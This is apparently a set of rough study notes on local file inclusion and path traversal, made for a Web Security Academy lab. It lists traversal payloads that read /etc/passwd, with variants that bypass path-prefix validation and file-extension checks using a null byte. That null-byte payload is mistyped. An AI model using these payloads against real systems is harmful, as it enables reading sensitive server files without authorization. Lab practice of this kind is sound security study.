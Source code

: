 # LFI

YOU CAN FIND LFI PAYLOAD HERE
https://github.com/payloadbox/rfi-lfi-payload-list


https://ac931fd61f42ba56c0ebbd0000fe0085.web-security-academy.net/image?filename=6.jpg

../../../../../etc/passwd

how to beat lfi
url encoding 
..../.../..../
raw path
/etc/passwd



#  File path traversal, validation of start of path
/var/www/images/../../../etc/passwd

### validation of file extension with null byte bypass

../../../../../etc/passwd00%.png

